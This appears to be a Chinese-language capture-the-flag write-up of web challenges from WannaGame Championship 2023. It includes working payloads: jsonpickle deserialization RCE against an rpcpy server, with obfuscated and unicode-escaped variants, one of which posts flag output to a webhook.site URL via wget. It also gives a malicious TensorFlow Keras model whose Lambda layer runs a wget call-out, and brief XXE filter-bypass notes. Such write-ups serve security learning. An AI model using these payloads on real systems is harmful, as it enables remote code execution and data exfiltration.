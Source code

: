 https://nguyendt.hashnode.dev/wannagame-championship-2023
# web
### Bocchi The RPC Server
一个rpc服务器
rpcpy存在[漏洞](https://github.com/ehtec/rpcpy-exploit/)
但是payload里利用的是pickle,题目中注释掉了
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231206233250.png)


可以使用jsonpickle绕过,记得用linux!!
```python
from typing import Any
import requests

import jsonpickle


class PickleRce(object):
    def __reduce__(self):
        import os
        return os.system, ("whoami",)


# 序列化对象为JSON字符串
json_str=jsonpickle.encode(PickleRce())
print(json_str)

```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231207000506.png)
然后unicode绕过

---

payload
```json
{
    "name": {
        "py/repr": "binascii/().__class__.__base__.__subclasses__().__getitem__(107).load_module(binascii.unhexlify('6f73').decode()).popen(binascii.unhexlify('2e2e2f72656164666c6167').decode()).read()"
    }
}
```

unicode绕过
```json
{
    "name": {
        "py/reduce": [
            {
                "py/function": "p\u006fsix.s\u0079stem"
            },
            {
                "py/tuple": [
                    "wget https://webhook.site/dfb8094f-ab17-41b5-93fa-e6c353fd4fbd --p\u006fst-data $(/readflag)"
                ]
            }
        ]
    }
}
```


### CountingStars
https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model

一个输入经纬度计算星星数的程序,使用了tensorflow,会加载一个模型`counting_stars.h5`
可以搜索到rce,当加载恶意模型的时候

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("wget https://webhook.site/2f815642-00d7-472d-9507-2af34539836a")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("counting_stars.h5")
```

但是这块的逻辑是请求一个模型,如果文件名\=\=`f'{session["dir"]}/{MODEL}'`则重新从上一级目录拿到未污染的模型,但是模型加载的文件名又是固定的
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231207161321.png)

---
discord上说是条件竞争


### art galley

- `api/decompress/?path`
读取文件然后反序列化
- `xml`
可以post xml,过滤了xxe利用

---
过滤了关键字,可以使用html实体编码绕过
通过xxe上传文件

再通过decompress反序列化

难得批爆


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-06   22:26